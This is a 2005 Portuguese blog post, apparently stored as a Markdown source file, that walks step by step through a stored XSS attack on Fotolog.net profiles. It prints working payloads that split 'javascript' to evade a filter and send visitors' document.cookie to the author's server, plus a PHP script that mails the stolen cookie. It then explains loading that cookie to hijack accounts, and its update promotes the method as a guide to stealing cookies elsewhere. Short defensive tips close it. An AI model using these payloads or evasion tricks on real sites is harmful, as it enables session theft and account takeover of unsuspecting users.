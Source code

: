 ```yaml
---
title: Falha no Fotolog.net
type: post
date: 2005-02-17T16:22:47+00:00
excerpt: A descrição de como descobri que consegui pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile num Fotolog.net
url: /2005/02/falha-no-fotolognet/
categories:
  - Dicas
tags:
  - cookies
  - dica
  - falha
  - fotolog
  - hacker
  - javascript
  - web
  - xss

---
```

Segue a descrição de como descobri que consigo pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile, e com isso, poder:

  * Adicionar comentários em qualquer fotolog como a pessoa
  * Remover comentários do fotolog da pessoa
  * Adicionar/remover FF list
  * Ver e-mail de cadastro da pessoa

**[update]** Parece que isso não funciona mais hoje. De qualquer maneira, é um bom guia (acho que tá bem detalhado) para _roubar cookies_ de vários outros sitemas que tenham falhas como esta (e não são poucos). **[/update]**

Nos últimos dias, alguém pegou a senha do Fotolog.net de um amigo meu e ele me pediu para que eu tentasse recuperar. Não consegui descobrir senha. Porém, usando furos do Fotolog.net e do Internet Explorer, descobri que consigo estar loggado com qualquer usuário que entre no meu perfil! Já que é preciso escrever a senha em cada página do Fotolog.net (upload, mudar profile, etc.) a única coisa que posso fazer loggado como a pessoa é escrever comentários, mas mesmo assim já é uma coisa estranha que merece a atenção do administrador do Fotolog.net (para o qual irei enviar um e-mail). Irei postar um “passo-a-passo” de como pegar o cookie de login do Fotolog.net e com isto, loggar como a pessoa que perdeu esse cookie.

O cookie do Fotolog.net dura mais de um ano… Isso é um problema grave de segurança, mas não é utilizando esta falha que faço tudo. O que eu fiz foi um JavaScript dentro de um CSS redirecionar para uma página PHP com função mail que me envia a função document.cookie do JavaScript que roda no cliente na página do Fotolog.net! É um pouco difícil de explicar, mas não tão complicado. Meu objetivo postando aqui não é incentivar que as pessoas façam isso (eu só fiz comigo mesmo testando), mas incentivar os que possuem conta no Fotolog.net usarem browsers decentes (como Firefox ou Opera) ou não clicar em profiles de estranhos. Tenho certeza de que hackers de verdade não usarão isto para o mal, mas sim para fins de aprendizagem, como eu fiz; mas parece que vários newbies por aí se acham e se acharão o máximo postando comentários como outras pessoas com a minha “receita de bolo”! Por esses, preciso lamentar e mandar ler a definição de hacker no Jargon File.

A primeira barreira que tive que ultrapassar foi que só 500 brasileiros por dia podem se registrar no Fotolog.net! Bom… Eu tava ansioso pra tentar fazer isso e já que eu não tinha tempo a perder, entrei no site [Public Proxy Servers][1] e usando um proxy high-anonimity do Vietnã me registrei no Fotolog.net… Perfeito! Apareceu que nenhum visitante do Vietnã tinha se cadastrado no dia.

Então, fui até o meu profile e no endereço do meu site eu tentei colocar aspas. Percebi que funcionou, então testei um código de bastante fácil entendimento:

```
#" style="background:url(javascript:location.href='http://tableless.tiagomadeira.net/foo.php'+escape(document.cookie))
```

Mas não funcionou porque o Fotolog.net não permite “javascript” na frase. Então após alguns testes cheguei ao:

```
#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))
```

_OBS.: Tenho recebido e-mail de pessoas dizendo que o não cabe… O meu também não cabia, mas é só questão de diminuir o endereço._

Este código só funciona porque o _Internet Explorer_ é problemático! Não tem nada a ver um _JavaScript_ dentro de uma url de fundo e ainda ir para este endereço! E o [Fotolog.net][2] também tem um bug seríssimo porque não deveria poder se usar aspas no endereço de um site! Daí no meu profile aparece no lugar do endereço da minha página:

```html
<a href="#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))">#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))</a>
```

Bom, depois disso basta fazer uma página PHP que passe este valor do c para um banco de dados ou e-mail (no meu caso, preferi por e-mail mesmo). Criei uma página no meu /r.php com:

```php
<?php
$cookie=$_GET["c"];
mail("meu@email", "Presente pra você!", "$cookie");
Header("Location: http://tableless.tiagomadeira.net");
?>
```

E o último problema que enfrentei então foi colocar este cookie no meu Firefox. Depois de vários testes, descobri que eu podia editar os cookies do meu Firefox. Para isto abri meu _>~/.mozilla/firefox/profiles/??????.default/cookies.txt_ e modifiquei o cookie para o que eu recebi no e-mail. E finalmente loggado!

#### Vou tentar simplificar o “algoritmo”:

  * A pessoa está loggada (sempre, pois o cookie do fotolog.net é gigantesco) e entra no meu perfil.
  * Meu perfil pega o cookie do Fotolog.net deste computador (que precisa estar usando Internet Explorer) e me envia via a função mail do PHP.
  * Eu troco o cookie do meu Firefox pelo que eu recebi no e-mail e com isto fico loggado como a pessoa!

Interessante, né?

Bom, como já havia dito, isto foi apenas para fins de aprendizagem e descobri tudo isto justamente porque algum lammer pegou a senha de um amigo meu, mas espero que as pessoas aprendam a lição para não se tornarem as vítimas deste _“golpe”_.

**Eu conheço três formas para se tornar resistente a esse golpe:**

  * Não utilizar Internet Explorer. Sugiro [Firefox][3] (o que eu uso), [Opera][4], [Konqueror][5], entre outros…
  * Não utilizar [Fotolog.net][2]. Sugiro [Flickr][6].
  * Não clicar em profiles de estranhos.

Bom… É isso aí.

Aprendi muito com isto e por isso compartilho este conhecimento neste post para que outros também possam aprender. Quem puder, divulgue para seus amigos para que eles não sejam vítimas desse tipo de coisa.

 [1]: http://www.publicproxyservers.com
 [2]: http://www.fotolog.net
 [3]: http://www.getfirefox.com
 [4]: http://www.opera.com
 [5]: http://konqueror.kde.org
 [6]: http://www.flickr.com

